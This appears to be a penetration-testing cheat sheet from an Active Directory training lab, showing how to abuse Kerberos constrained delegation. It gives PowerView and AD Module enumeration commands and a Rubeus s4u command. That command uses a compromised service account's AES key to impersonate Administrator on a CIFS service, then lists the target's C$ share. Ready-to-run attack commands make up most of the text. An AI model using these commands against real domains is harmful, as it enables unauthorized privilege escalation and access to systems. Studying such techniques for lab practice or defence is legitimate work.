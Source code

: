To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in `msDS-AllowedToDelegateTo` of the `websvc` (web service on web server) account as **ANY user**

Find users and computers with constrained delegation enabled (PowerView + AD Module)
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne
"$null"} -Properties msDS-AllowedToDelegateTo
```

**COMPROMISE THE WEB SERVICE ACCOUNT AND RUN THE FOLLOWING AS IT**

Request a `TGT` and `TGS` and impersonate any user
```powershell
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e87
9470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
```

Test
```powershell
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```